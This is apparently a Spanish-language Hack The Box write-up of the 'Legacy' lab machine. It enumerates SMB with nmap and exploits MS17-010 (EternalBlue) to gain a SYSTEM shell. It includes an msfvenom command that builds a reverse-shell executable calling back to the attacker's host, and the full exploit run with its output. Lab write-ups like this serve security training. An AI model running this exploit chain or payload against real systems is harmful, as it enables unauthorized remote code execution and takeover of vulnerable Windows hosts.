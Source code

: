 ```yaml
---
title: "Hackthebox Legacy Writeup (OSCP Style)"
date: 2020-08-26 14:21:54 +/-0800
categories: [Hackthebox,Windows]
tags: [Eternalblue,MS17-010]
image: /assets/img/Post/Legacy.jpg
---
```



| Contenido | Descripción |
|--|--|
| OS: | **![](https://lh4.googleusercontent.com/MHW4d9kHrUo_W-GEyKNmxy4d80uPN5LB0VvwueRlflx-MIKT90EEwXBQZAv7Lg_N9dhTCed17DcmhNF-T_39FcYHrBAx7bHTDD1I7FGeqykdeKs849mRr1y0-aggvaZ7eYUYjPZG)** |
| Dificultad: | Facil |
| Puntos: | 20 |
| Lanzamiento: | 15/Marzo/2017 |
| IP: | 10.10.10.4 |
| Primera sangre de usuario: | [0x1Nj3cT0R](https://www.hackthebox.eu/home/users/profile/22) |
| Primera sangre de system: | [0x1Nj3cT0R](https://www.hackthebox.eu/home/users/profile/22) |

## Enumeación.

Como siempre comenzaremos con un escaneo a los     `65535` puertos para descubrir cuales son los puertos abiertos.

```console
intrusionz3r0@kali:~$ nmap -p- --open -T5 -n -oG nmapScanAllPorts legacy.htb -Pn --min-rate 3000
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:13 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.23s latency).
Not shown: 65532 filtered ports, 1 closed port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 47.65 seconds
```
Después lanzaré scripts de enumeración básicos para conocer los servicios y versiones de los puertos abiertos.
```console
intrusionz3r0@kali:~$  nmap -sCV -p139,445 -oN targeted legacy.htb -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:16 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.20s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h30m21s, deviation: 2h07m16s, median: 4d23h00m21s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:91:0b (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-09-01T03:17:15+03:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.69 seconds
```
El escaneo determino lo siguiente:

* Puerto 139/tcp con servicio samba.
* Puerto 445/tcp con servicio samba.

## Análisis del servicio samba.

Rápidamente lanzo otro escaneo con nmap con el objetivo de poder encontrar si estas versiones de samba esta asociadas con alguna vulnerabilidad critica.

```console
intrusionz3r0@kali:~$ nmap -p139,445 --script="Vuln and Safe" legacy.htb -oN vulnScan -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:26 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.29s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 18.94 seconds
```

**¡¡Eureka!!**

Podemos observar que la máquina es vulnerable a `ms17-010` el famoso `eternalblue`.

Para explotarlo necesitamos descargarnos el siguiente repositorio: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)

## Explotación de eternalblue.

Una vez descargado verificamos si la máquina es vulnerable nuevamente.

```console
intrusionz3r0@kali:~$ sudo python checker.py legacy.htb                                                                        [28/28]
Trying to connect to legacy.htb:445                                                                                                                                
Target OS: Windows 5.1                                                                                                                                             
The target is not patched                                                                                                                                          
                                                                                                                                                                   
=== Testing named pipes ===                                                                                                                                        
spoolss: Ok (32 bit)                                                                                                                                               
samr: STATUS_ACCESS_DENIED                                                                                                                                         
netlogon: STATUS_ACCESS_DENIED                                                                                                                                     
lsarpc: STATUS_ACCESS_DENIED                                                                                                                                       
browser: Ok (32 bit)
```
Si en la respuesta te arroja cualquier pipe en `OK` significa de que es vulnerable.

Creamos una payload.
```console
intrusionz3r0@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=1234 -f exe -o eternal.exe                    
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                             
[-] No arch selected, selecting arch: x86 from the payload                                                                                                         
No encoder specified, outputting raw payload                                                                                                                       
Payload size: 324 bytes                                                                                                                                            
Final size of exe file: 73802 bytes                                                                                                                                
Saved as: eternal.exe
```
Por último dejamos nuestro netcat a la escucha y lanzamos el exploit.

```console
intrusionz3r0@kali:~$ sudo python send_and_execute.py 10.10.10.4 eternal.exe 445 spoolss                           
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x82129010
SESSION: 0xe21045d8
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe21676b0
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe2167750
overwriting token UserAndGroups
Sending file V9TKR5.exe...
Opening SVCManager on 10.10.10.4.....
Creating service BYjN.....
Starting service BYjN.....
The NETBIOS connection with the remote host timed out.
Removing service BYjN.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

![](https://lh4.googleusercontent.com/efO57qg1EeFfLV9qks83MO3sBd961Kvb46EykFNcytBlddJyRkmT7ReRNtwE0JaYu0JRAGWxH2B8R3zdzGwUtRqOR2jteRei_UPP0R78PuQuVpsAZ-CUPcnjieaOo5miFmZ2QQ4J)

## Ejecución del binario whoami.exe

**¡¡Eureka!!**

Tenemos shell pero al intentar ejecutar el comando `whoami` podemos observar que es imposible debido a que no exite el binario.

```console
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```
Aunque se que somos Administrador de todas formas vamos a subir el binario `whoami` a la máquina.

Rápidamente me levanto un servidor con samba compartiendo el `whoami.exe` y lo ejecutamos desde ahí.

![](https://lh3.googleusercontent.com/ettGpXlw6gE5GzlOY7wPXxehUI85URaeJAZXOabZkiZMD3M0Xi3fsJfgluyWz8yrK8k6F7Syj4ulGc9TDNWXnR6LIIzfJsnnDhRoSGyB5vBtYVBFZDpBedAEL3LkXvmlHyy6ffxx)


**¡¡Somos Administrador!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

**¡Muchas Gracias!**
